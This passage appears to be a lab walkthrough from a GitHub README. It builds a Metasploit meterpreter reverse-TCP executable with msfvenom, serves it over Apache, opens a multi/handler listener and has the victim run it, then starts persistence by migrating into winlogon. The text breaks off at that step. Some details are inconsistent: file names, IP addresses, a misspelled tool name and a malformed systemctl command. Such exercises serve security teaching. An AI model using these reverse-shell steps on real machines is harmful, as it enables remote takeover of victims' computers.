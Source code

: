 Find the attackers ip address using ifconfig

### Output:

<img width="635" height="335" alt="image" src="https://github.com/user-attachments/assets/31af857d-1157-48e7-83d2-e81fc94172fd" />

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > ak.exe```

### Output:

<img width="716" height="131" alt="image" src="https://github.com/user-attachments/assets/e1c57068-6ae6-46a1-9fbd-0d019e6043c5" />


copy the ak.exe into the apache ```/var/www/html ```folder

<img width="275" height="72" alt="image" src="https://github.com/user-attachments/assets/513f0c8c-0bad-4013-bb2f-05f09ab3f92f" />



Start apache server ```sudo systemctl apache2 start``` 

Check the status of apache2 ```sudo apache2 status```

<img width="762" height="452" alt="image" src="https://github.com/user-attachments/assets/9dab46d0-20ee-4198-aa1e-db6a5671a4b7" />

Invoke msfconsole:

<img width="556" height="366" alt="image" src="https://github.com/user-attachments/assets/27d5a68d-3e03-45e1-8cf4-94bcad43f444" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="742" height="495" alt="image" src="https://github.com/user-attachments/assets/06c2a653-c8a9-4d22-90c3-94ac46b4a2ab" />


Starting a command and control Server ```use multi/handler``` 
```set PAYLOAD windows/meterpreter/reverse_tcp``` 
```set LHOST 0.0.0.0```
```exploit```

### Output 

<img width="601" height="176" alt="image" src="https://github.com/user-attachments/assets/b60a2aa9-1e43-4308-a570-2705b6806f67" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.56.101/ak.exe``` The file "ak.exe" downloads.

<img width="957" height="602" alt="image" src="https://github.com/user-attachments/assets/35707247-19fe-4bd9-9245-6484e9ac838e" />

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

```